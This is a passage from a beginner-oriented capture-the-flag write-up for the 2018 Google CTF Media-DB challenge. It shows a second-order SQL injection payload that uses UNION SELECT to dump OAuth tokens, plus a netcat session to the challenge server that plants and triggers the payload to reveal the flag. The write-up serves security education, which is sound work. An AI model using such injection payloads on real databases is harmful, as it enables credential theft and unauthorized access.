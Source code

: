 Once that query is executed in choice 4, the query should look like so.

```sql
SELECT artist, song FROM media WHERE artist = '' AND 1=0 UNION SELECT oauth_token, 1 FROM oauth_tokens WHERE 1=1 OR ''=''
```

Alright, now that we got a properly formatted SQL injection, let's connect to the server via netcat, add the malicious query via choice 1, and then execute it.

```console
root@kali:~/Google-CTF/Media-DB# nc media-db.ctfcompetition.com 1337
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
' AND 1=0 UNION SELECT oauth_token, 1 FROM oauth_tokens WHERE 1=1 OR ''='
song name?
test
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: ' AND 1=0 UNION SELECT oauth_token, 1 FROM oauth_tokens WHERE 1=1 OR ''='

== new playlist ==
1: "1" by "CTF{fridge_cast_oauth_token_cahn4Quo}"
```

And there we have it! The final flag for the miscellaneous challenge!

__FLAG:__ CTF{fridge_cast_oauth_token_cahn4Quo}

## Closing

Alright, that's pretty much for the miscellaneous challenges! In all honesty most of them were pretty easy and covered basic security issues. We learned a few cool techniques, tips and tricks, and also took our first steps into understanding some parts of x86 Architecture which will be helpful for the later challenges.

For those of you starting in security and CTF's, I sincerely hope you learned something new today and found some motivation to learn new things.

Other then that, thanks for reading and stay tuned for the next part of the 2018 Google CTF: Beginners Challenge where we will cover the Web portion! 
